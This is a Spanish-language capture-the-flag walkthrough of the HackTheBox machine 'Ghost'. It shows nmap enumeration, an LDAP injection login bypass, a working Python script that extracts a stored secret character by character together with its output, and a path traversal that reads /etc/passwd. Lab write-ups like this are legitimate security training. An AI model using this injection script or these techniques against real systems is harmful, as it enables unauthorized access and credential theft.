







# Copy of Copy of Ghost

<figure><figcaption></figcaption></figure>

***


## Reconnaissance

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina **Ghost**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -Pn -n 10.10.11.24 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-07 18:54 CET
Initiating SYN Stealth Scan at 18:54
Scanning 10.10.11.24 [65535 ports]
Completed SYN Stealth Scan at 18:56, 127.33s elapsed (65535 total ports)
Nmap scan report for 10.10.11.24
Host is up, received user-set (0.053s latency).
Scanned at 2025-02-07 18:54:34 CET for 127s
Not shown: 65508 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack ttl 127
80/tcp    open  http             syn-ack ttl 127
88/tcp    open  kerberos-sec     syn-ack ttl 127
135/tcp   open  msrpc            syn-ack ttl 127
139/tcp   open  netbios-ssn      syn-ack ttl 127
389/tcp   open  ldap             syn-ack ttl 127
443/tcp   open  https            syn-ack ttl 127
445/tcp   open  microsoft-ds     syn-ack ttl 127
464/tcp   open  kpasswd5         syn-ack ttl 127
593/tcp   open  http-rpc-epmap   syn-ack ttl 127
636/tcp   open  ldapssl          syn-ack ttl 127
1433/tcp  open  ms-sql-s         syn-ack ttl 127
2179/tcp  open  vmrdp            syn-ack ttl 127
3268/tcp  open  globalcatLDAP    syn-ack ttl 127
3269/tcp  open  globalcatLDAPssl syn-ack ttl 127
3389/tcp  open  ms-wbt-server    syn-ack ttl 127
5985/tcp  open  wsman            syn-ack ttl 127
8008/tcp  open  http             syn-ack ttl 127
8443/tcp  open  https-alt        syn-ack ttl 127
9389/tcp  open  adws             syn-ack ttl 127
49443/tcp open  unknown          syn-ack ttl 127
49664/tcp open  unknown          syn-ack ttl 127
49669/tcp open  unknown          syn-ack ttl 127
49675/tcp open  unknown          syn-ack ttl 127
51066/tcp open  unknown          syn-ack ttl 127
51123/tcp open  unknown          syn-ack ttl 127
57044/tcp open  unknown          syn-ack ttl 127

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 127.43 seconds
           Raw packets sent: 131132 (5.770MB) | Rcvd: 177 (10.228KB)
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.24
	[*] Open ports: 53,80,88,135,139,389,443,445,464,593,636,1433,2179,3268,3269,3389,5985,8008,8443,9389,49443,49664,49669,49675,51066,51123,57044

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX para posteriormente trabajar con ellos. Verificamos a través del resultado obtenido de que la máquina se trata de un Domain Controller (DC) por los puertos y servicios que se encuentran expuestos.

```bash
❯ nmap -sCV -p53,80,88,135,139,389,443,445,464,593,636,1433,2179,3268,3269,3389,5985,8008,8443,9389,49443,49664,49669,49675,51066,51123,57044 10.10.11.24 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-07 18:59 CET
Nmap scan report for 10.10.11.24
Host is up (0.066s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-02-07 18:00:25Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: ghost.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC01.ghost.htb
| Subject Alternative Name: DNS:DC01.ghost.htb, DNS:ghost.htb
| Not valid before: 2024-06-19T15:45:56
|_Not valid after:  2124-06-19T15:55:55
443/tcp   open  https?
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: ghost.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.ghost.htb
| Subject Alternative Name: DNS:DC01.ghost.htb, DNS:ghost.htb
| Not valid before: 2024-06-19T15:45:56
|_Not valid after:  2124-06-19T15:55:55
|_ssl-date: TLS randomness does not represent time
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2022 16.00.1000.00; RTM
| ms-sql-info: 
|   10.10.11.24:1433: 
|     Version: 
|       name: Microsoft SQL Server 2022 RTM
|       number: 16.00.1000.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2025-02-07T18:02:20+00:00; +26s from scanner time.
| ms-sql-ntlm-info: 
|   10.10.11.24:1433: 
|     Target_Name: GHOST
|     NetBIOS_Domain_Name: GHOST
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: ghost.htb
|     DNS_Computer_Name: DC01.ghost.htb
|     DNS_Tree_Name: ghost.htb
|_    Product_Version: 10.0.20348
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-02-07T17:46:39
|_Not valid after:  2055-02-07T17:46:39
2179/tcp  open  vmrdp?
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: ghost.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.ghost.htb
| Subject Alternative Name: DNS:DC01.ghost.htb, DNS:ghost.htb
| Not valid before: 2024-06-19T15:45:56
|_Not valid after:  2124-06-19T15:55:55
|_ssl-date: TLS randomness does not represent time
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: ghost.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.ghost.htb
| Subject Alternative Name: DNS:DC01.ghost.htb, DNS:ghost.htb
| Not valid before: 2024-06-19T15:45:56
|_Not valid after:  2124-06-19T15:55:55
|_ssl-date: TLS randomness does not represent time
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-02-07T18:02:21+00:00; +27s from scanner time.
| ssl-cert: Subject: commonName=DC01.ghost.htb
| Not valid before: 2025-02-06T17:43:29
|_Not valid after:  2025-08-08T17:43:29
| rdp-ntlm-info: 
|   Target_Name: GHOST
|   NetBIOS_Domain_Name: GHOST
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: ghost.htb
|   DNS_Computer_Name: DC01.ghost.htb
|   DNS_Tree_Name: ghost.htb
|   Product_Version: 10.0.20348
|_  System_Time: 2025-02-07T18:01:41+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8008/tcp  open  http          nginx 1.18.0 (Ubuntu)
|_http-title: Ghost
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-robots.txt: 5 disallowed entries 
|_/ghost/ /p/ /email/ /r/ /webmentions/receive/
|_http-generator: Ghost 5.78
8443/tcp  open  ssl/http      nginx 1.18.0 (Ubuntu)
| http-title: Ghost Core
|_Requested resource was /login
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg: 
|_  http/1.1
|_http-server-header: nginx/1.18.0 (Ubuntu)
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=core.ghost.htb
| Subject Alternative Name: DNS:core.ghost.htb
| Not valid before: 2024-06-18T15:14:02
|_Not valid after:  2124-05-25T15:14:02
9389/tcp  open  mc-nmf        .NET Message Framing
49443/tcp open  unknown
49664/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
51066/tcp open  msrpc         Microsoft Windows RPC
51123/tcp open  msrpc         Microsoft Windows RPC
57044/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|2012|2016 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2022 (89%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC01; OSs: Windows, Linux; CPE: cpe:/o:microsoft:windows, cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 26s, deviation: 0s, median: 25s
| smb2-time: 
|   date: 2025-02-07T18:01:41
|_  start_date: N/A

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   99.71 ms 10.10.16.1
2   99.92 ms 10.10.11.24

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 136.54 seconds
```

Transformaremos el archivo generado `targetedXML` para transformar el XML en un archivo HTML para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

A través de la herramienta de `netexec` y `ldapsearch` enumeraremos el equipo para localizar más información. Entre la información obtenida, verificamos el `hostname`, versión del SO y el nombre del dominio.

```bash
❯ nxc smb 10.10.11.24
SMB         10.10.11.24     445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:ghost.htb) (signing:True) (SMBv1:False)

❯ ldapsearch -x -H ldap://10.10.11.24 -s base | grep defaultNamingContext
defaultNamingContext: DC=GHOST,DC=HTB
```

Añadiremos en nuestro archivo `/etc/hosts` las entradas correspondientes para que a la hora de hacer referencia al dominio o el equipo nos responda correctamente a la dirección IP del equipo.

```bash
❯ cat /etc/hosts | grep ghost.htb
10.10.11.24 ghost.htb DC01.ghost.htb
```

## Web Enumeration

Realizaremos una enumeración de las tecnologías presentes en las diferentes páginas web que hemos encontrado en diferentes puertos.

```bash
❯ whatweb http://ghost.htb
http://ghost.htb [404 Not Found] Country[RESERVED][ZZ], HTTPServer[Microsoft-HTTPAPI/2.0], IP[10.10.11.24], Microsoft-HTTPAPI[2.0], Title[Not Found]

❯ whatweb http://ghost.htb:8008
http://ghost.htb:8008 [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.24], MetaGenerator[Ghost 5.78], Open-Graph-Protocol[website], Script[application/ld+json], Title[Ghost], X-Powered-By[Express], nginx[1.18.0]

❯ whatweb https://ghost.htb:8443
https://ghost.htb:8443 [302 Found] Cookies[connect.sid], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], HttpOnly[connect.sid], IP[10.10.11.24], RedirectLocation[/login], X-Powered-By[Express], nginx[1.18.0]
https://ghost.htb:8443/login [200 OK] Cookies[connect.sid], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], HttpOnly[connect.sid], IP[10.10.11.24], Title[Ghost Core], X-Powered-By[Express], nginx[1.18.0]
```

Al acceder a [http://ghost.htb](http://ghost.htb) y [https://ghost.htb](https://ghost.htb) verificamos que no muestra ningún tipo de contenido.

<figure><figcaption></figcaption></figure>

Cuando accedimos a [http://ghost.htb:8008 ](http://ghost.htb:8008)nos mostró una página web del CMS `Ghost`.


Basado en NodeJS, Ghost es un software de gestión de contenidos enfocado a blogs, con multitud de integraciones y que permite una completa personalización del aspecto. En su conjunto, es una solución que resulta muy amigable para cualquier desarrollador.


<figure><figcaption></figcaption></figure>

Al acceder a [https://ghost.htb:8443](https://ghost.htb:8443) se nos mostraba una página web de inicio de sesión con un botón el cual nos redirigía a `federation.ghost.htb`.

<figure><figcaption></figcaption></figure>

Añadiremos esta nueva entrada en nuestro archivo `/etc/hosts`.

```bash
❯ cat /etc/hosts | grep ghost.htb
10.10.11.24 ghost.htb DC01.ghost.htb federation.ghost.htb 
```

Al tratar de acceder a [https://federation.ghost.htb](https://federation.ghost.htb) verificamos un panel de inicio de sesión del sitio web.

<figure><figcaption></figcaption></figure>

Después de una enumeración de subdominios de la página web, añadiremos las siguientes entradas en nuestro archivo `/etc/hosts`.

```bash
❯ cat /etc/hosts | grep ghost.htb
10.10.11.24 ghost.htb DC01.ghost.htb federation.ghost.htb intranet.ghost.htb gitea.ghost.htb
```

Al tratar de acceder a [http://intranet.ghost.htb:8008](http://intranet.ghost.htb:8008) nos muestra un panel de inicio de sesión a lo que parece ser la Intranet del sitio web.

<figure><figcaption></figcaption></figure>

Al acceder a [http://gitea.ghost.htb:8008](http://gitea.ghost.htb:8008) nos encontramos con el siguiente sitio web de la plataforma de Gitea.

<figure><figcaption></figcaption></figure>

Al investigar más en la página web de `Gitea` nos encontramos con dos nombres de usuarios que probablemente sean del Directorio Activo (AD).

<figure><figcaption></figcaption></figure>

## Shell as Root

### LDAP Injection

Interceptaremos la solicitud al intentar acceder al panel de `intranet.ghost.htb` y verificamos que al enviar la solicitud con el usuario `test/test`. Nos devuelve el siguiente mensaje en la respuesta del servidor. También verificamos que los campos del `username` y `password` tienen de nombre la variable algo relacionado con `LDAP`. Lo cual nos hace pensar que por detrás realiza una consulta en LDAP para validar el acceso a la Intranet.

<figure><figcaption></figcaption></figure>

Probaremos de inyectar el siguiente carácter `)` para cerrar la query de LDAP y al enviar la solicitud, el servidor nos devuelve un mensaje informando que ha ocurrido un error.

<figure><figcaption></figcaption></figure>

Probaremos de realizar un `Authenticacion Bypass` indicándole el nombre de usuario `cassandra.shelton` que encontramos en el `Gitea` e indicándole como contraseña el carácter `*` con lo cual si no está bien configurado, se utilizará como comodín y rellenará el campo de la contraseña.

Al enviar esta solicitud, verificamos que se nos ha generado un Token en la respuesta del servidor, lo cual parece indicarnos que efectivamente hemos podido realizar el `Bypass` correctamente.

<figure><figcaption></figcaption></figure>

A través de la extensión de `Cookie Editor` añadiremos este nuevo Token en la página de [http://intranet.ghost.htb:8008](http://intranet.ghost.htb:8008).

<figure><figcaption></figcaption></figure>

Al actualizar la página se nos muestra el acceso correspondiente a la Intranet. En la sección de noticias se nos indica lo siguiente.


En la sección **News** de _intranet.ghost.htb_, encontramos información sobre la migración de **Gitea a Bitbucket**. Los inicios de sesión con credenciales de dominio están deshabilitados, pero mencionan una cuenta **gitea\_temp\_principal** con un token almacenado en **LDAP**. También indican que, temporalmente, el acceso a la intranet requiere un **token secreto** en lugar de la contraseña de dominio.


<figure><figcaption></figcaption></figure>

Al acceder a la sección de `Users`, verificamos la existencia de los diferentes usuarios del dominio.

<figure><figcaption></figcaption></figure>

Nos guardaremos en un archivo, el listado de usuarios del dominio que hemos encontrado en la Intranet.

```bash
❯ cat users.txt
kathryn.holland
cassandra.shelton
robert.steeves
florence.ramirez
justin.bradley
arthur.boyd
beth.clark
charles.gray
jason.taylor
intranet_principal
gitea_temp_principal
```

En la sección de `Forums` nos encontramos con la siguiente información.


En la sección **News**, encontramos que la migración de publicaciones desde la antigua intranet aún está en proceso, por lo que no es posible publicar o responder por el momento.

También identificamos una conversación donde un usuario intenta conectar con **bitbucket.ghost.htb**, pero recibe un error. Según una respuesta, el problema se debe a que la migración no ha finalizado y la entrada **DNS** aún no está configurada.

Además, hay publicaciones internas sobre logros del equipo y reconocimientos a investigadores, lo que indica una cultura organizativa activa en la intranet.


<figure><figcaption></figcaption></figure>

Recordando que en la sección de `News` habían indicado que el usuario`gitea_temp_principal` disponía de un token almacenado en LDAP. Por lo cual, lo que realizamos es un script de **LDAP Injection** para intentar obtener las credenciales válidas del usuario indicado a través de iniciar sesión en la Intranet que vimos anteriormente que era vulnerable a LDAP Injection.

```python
import string
import requests

# Configuración
url = 'http://intranet.ghost.htb:8008/login'
headers = {
    'Host': 'intranet.ghost.htb:8008',
    'Accept-Language': 'en-US,en;q=0.5',
    'Accept-Encoding': 'gzip, deflate, br',
    'Next-Action': 'c471eb076ccac91d6f828b671795550fd5925940',
    'Connection': 'keep-alive'
}

# Caracteres a probar (puedes ampliar si el login acepta mayúsculas o símbolos)
charset = string.ascii_lowercase + string.digits  
password = ""

while True:
    found = False
    for char in charset:
        test_password = f"{password}{char}*"

        files = {
            '1_ldap-username': (None, 'gitea_temp_principal'),
            '1_ldap-secret': (None, test_password),
            '0': (None, '[{},"$K1"]')
        }

        r = requests.post(url, headers=headers, files=files)

        if r.status_code == 303:  # Código de redirección indica login exitoso
            password += char
            print(f"[✔] Caracter encontrado: {char} → {password}")
            found = True
            break  # Salir del loop de caracteres y probar el siguiente

    if not found:
        print(f"[✅] Contraseña encontrada: {password}")
        break  # Si ningún carácter fue válido, finaliza

print(f"[🔓] Contraseña final: {password}")
```

Al ejecutar el script, verificamos que a través de fuerza bruta, logra encontrar carácter por carácter, lo que parece ser la contraseña del usuario mencionado.

```bash
❯ python3 brute_ldap.py
[✔] Caracter encontrado: s → s
[✔] Caracter encontrado: z → sz
[✔] Caracter encontrado: r → szr
[✔] Caracter encontrado: r → szrr
[✔] Caracter encontrado: 8 → szrr8
[✔] Caracter encontrado: k → szrr8k
[✔] Caracter encontrado: p → szrr8kp
[✔] Caracter encontrado: c → szrr8kpc
[✔] Caracter encontrado: 3 → szrr8kpc3
[✔] Caracter encontrado: z → szrr8kpc3z
[✔] Caracter encontrado: 6 → szrr8kpc3z6
[✔] Caracter encontrado: o → szrr8kpc3z6o
[✔] Caracter encontrado: n → szrr8kpc3z6on
[✔] Caracter encontrado: l → szrr8kpc3z6onl
[✔] Caracter encontrado: q → szrr8kpc3z6onlq
[✔] Caracter encontrado: f → szrr8kpc3z6onlqf
[✅] Contraseña encontrada: szrr8kpc3z6onlqf
[🔓] Contraseña final: szrr8kpc3z6onlqf
```

Accederemos nuevamente a [http://gitea.ghost.htb:8008](http://gitea.ghost.htb:8008) de autenticarnos con el usuario encontrado para verificar si disponemos del acceso que indicaban en la sección de `News`.

<figure><figcaption></figcaption></figure>

Verificamos que hemos logrado acceder correctamente al `Gitea` con el usuario `gitea_temp_principal`.

<figure><figcaption></figcaption></figure>

### Ghost Blog Vulnerabilities

En los repositorios que dispone el usuario actual, verificamos de la existencia de los repositoris `blog` y `intranet`.

<figure><figcaption></figcaption></figure>

Al acceder al repositorio`ghost-dev/blog` se nos indica en el archivo`README.md` lo siguiente.


En el **README.md** del repositorio en **Gitea**, encontramos información clave sobre el **Ghost Blog**, que utiliza **Ghost CMS** en un contenedor Docker.

Mencionan una futura integración con la intranet, donde algunas publicaciones serán destacadas o escaneadas. Para ello, han implementado una clave **API** compartida entre la intranet y el blog, almacenada como variable de entorno con el nombre **DEV\_INTRANET\_KEY**.

También han modificado el código fuente de **Ghost CMS**, en particular el archivo **posts-public.js**, para extraer más información de las publicaciones. Indican que, en el futuro, estos datos deberían almacenarse en una base de datos para evitar pérdidas al recrear los contenedores.

Además, han dejado expuesta una **clave API pública** que permite acceso a datos públicos en **Ghost API**, lo que podría ser útil para obtener más información del sistema.


<figure><figcaption></figcaption></figure>

Al acceder a revisar el archivo `Dockerfile` nos encontramos con el siguiente contenido.

<figure><figcaption></figcaption></figure>

Por otro lado, el archivo `docker-compose.yml` contiene la siguiente configuración.

<figure><figcaption></figcaption></figure>

Revisamos el último archivo que disponemos en el repositorio del Blog `posts-public.js` y nos encontramos con el siguiente resultado.

<figure><figcaption></figcaption></figure>

### Using the Ghost API to retrieve Path Traversal vulnerability information

El siguiente paso será hacer uso de la API de Ghost, ya que según la información que recopilamos del Gitea, podíamos hacer uso de esta API a través de la API KEY que nos proporcionaron. Verificaremos el funcionamiento de la API a través de la documentación oficial del CMS.



<figure><figcaption></figcaption></figure>

En la documentación, comprobamos que nos aparece un ejemplo de como utilizar esta API.

<figure><figcaption></figcaption></figure>

Interceptaremos la solicitud en `BurpSuite` y verificaremos que si podemos hacer uso de la API correctamente.

<figure><figcaption></figcaption></figure>

Le pasamos al ChatGPT el contenido del archivo `posts-public.js` para verificar si tenía alguna vulnerabilidad y nos indicó que existía la posibilidad de realizar un `Path Traversal` a través del valor `extra`.

<figure><figcaption></figcaption></figure>

Trataremos de verificar si podemos revisar el contenido del `/etc/passwd` del equipo a través de la vulnerabilidad en combinación de la API de Ghost. Verificamos que hemos logrado leer el archivo indicado, por lo tanto, tenemos una vía para enumerar archivos del sistema.

<figure><figcaption></figcaption></figure>

